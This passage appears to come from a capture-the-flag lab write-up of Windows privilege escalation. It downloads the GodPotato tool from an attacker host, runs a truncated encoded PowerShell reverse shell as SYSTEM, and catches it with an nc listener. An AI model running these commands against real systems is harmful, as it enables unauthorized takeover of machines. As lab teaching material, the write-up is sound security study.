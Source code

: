 Uploaded [GodPotato](https://github.com/BeichenDream/GodPotato) to **abuse the SeImpersonatePrivilege** and send ourselves another reverse shell, but this time as SYSTEM.

```
PS C:\windows\system32\inetsrv> iwr -uri http://10.10.14.112/GodPotato-NET4.exe -outfile c:\users\public\GodPotato-NET4.exe

PS C:\windows\system32\inetsrv> c:\users\public\GodPotato-NET4.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0..."
```

Successfully established a reverse shell as NT AUTHORITY\SYSTEM and read the root flag. GGs!

```
nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.112] from (UNKNOWN) [10.129.228.120] 52791

PS C:\windows\system32\inetsrv> whoami
nt authority\system

PS C:\windows\system32\inetsrv> type c:\users\administrator\desktop\root.txt
279c1cc77f0f30c0****************
```